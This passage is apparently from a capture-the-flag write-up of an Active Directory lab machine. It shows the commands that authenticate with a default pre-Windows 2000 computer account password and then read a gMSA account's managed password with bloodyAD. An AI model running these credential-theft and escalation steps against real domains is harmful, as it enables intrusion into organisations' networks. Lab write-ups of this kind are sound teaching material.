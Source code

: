 :::tip[Theory]
When a new computer account is configured as "pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.
:::

According to [Pre-Windows 2000 computers](https://www.thehacker.recipes/ad/movement/builtins/pre-windows-2000-computers#pre-windows-2000-computers), the password for the computer account is the lowercase computer name without the trailing `$` if it hasn't been changed.

# Auth as fs01$

## Validate Pre2k machine creds

And `FS01\$:fs01` is a valid credentials.

```bash
getTGT.py -dc-ip 10.10.11.45 vintage.htb/FS01\$:fs01
```

## Enumeration

## ReadGMSAPassword

<p align="center">
  <img src="/machines/vintage/gmsa01.png" alt="GMSA01$ computer" />
</p>

From `FS01$`, we could [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword) of `GMSA01$` computer account.

I will use `bloodyAD` to read `msDS-ManagedPassword` attribute of `GMSA01$` computer account.

```bash
export KRB5CCNAME=$(realpath FS01\$.ccache)
bloodyAD -d vintage.htb -k --dc-ip 10.10.11.45 --host dc01.vintage.htb get object GMSA01\$ --attr msDS-ManagedPassword
```

# Auth as gmsa01$

## Enumeration

<p align="center">
  <img src="/machines/vintage/gmsa01_acl.png" alt="GMSA01$ ACL" />
</p>

`GMSA01$` has `GenericWrite` permissions on the `SERVICEMANAGERS` group, which in turn grants `AddSelf` as well.
